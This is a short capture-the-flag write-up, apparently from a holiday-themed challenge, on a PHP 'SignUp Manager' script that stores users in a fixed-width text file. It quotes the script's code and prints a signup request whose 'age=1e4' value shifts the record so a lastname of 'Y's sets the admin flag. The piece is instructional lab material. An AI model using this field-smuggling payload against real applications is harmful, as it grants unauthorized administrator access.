 You've made it this far! The grinch is recruiting for his army to ruin the holidays but they're very picky on who they let in!

tips from the source code of /signup-manger/:
```
<!-- See README.md for assistance -->
```

the README.md(/signup-manager/README.md)
```
# SignUp Manager

SignUp manager is a simple and easy to use script which allows new users to signup and login to a private page. All users are stored in a file so need for a complicated database setup.

### How to Install

1) Create a directory that you wish SignUp Manager to be installed into

2) Move signupmanager.zip into the new directory and unzip it.

3) For security move users.txt into a directory that cannot be read from website visitors

4) Update index.php with the location of your users.txt file

5) Edit the user and admin php files to display your hidden content

6) You can make anyone an admin by changing the last character in the users.txt file to a Y

7) Default login is admin / password
```

signupmanager.zip is not removed from web directory. Codes of signup function is interesting:
```
```
function addUser($username,$password,$age,$firstname,$lastname){
    $random_hash = md5( print_r($_SERVER,true).print_r($_POST,true).date("U").microtime().rand() );
    $line = '';
    $line .= str_pad( $username,15,"#");
    $line .= $password;
    $line .= $random_hash;
    $line .= str_pad( $age,3,"#");
    $line .= str_pad( $firstname,15,"#");
    $line .= str_pad( $lastname,15,"#");
    $line .= 'N';
    $line = substr($line,0,113);
    file_put_contents('users.txt',$line.PHP_EOL, FILE_APPEND);
    return $random_hash;
}

function buildUsers(){
    $users = array();
    $users_txt = file_get_contents('users.txt');
    foreach( explode(PHP_EOL,$users_txt) as $user_str ){
        if( strlen($user_str) == 113 ) {
            $username = str_replace('#', '', substr($user_str, 0, 15));
            $users[$username] = array(
                'username' => $username,
                'password' => str_replace('#', '', substr($user_str, 15, 32)),
                'cookie' => str_replace('#', '', substr($user_str, 47, 32)),
                'age' => intval(str_replace('#', '', substr($user_str, 79, 3))),
                'firstname' => str_replace('#', '', substr($user_str, 82, 15)),
                'lastname' => str_replace('#', '', substr($user_str, 97, 15)),
                'admin' => ((substr($user_str, 112, 1) === 'Y') ? true : false)
            );
        }
    }
    return $users;
}
```
$age='1e4'
intval('1e4')=10000 
```
action=signup&username=test&password=test&age=1e4&firstname=123&lastname=YYYYYYYYYYYYYYY
```
then, test is a admin.




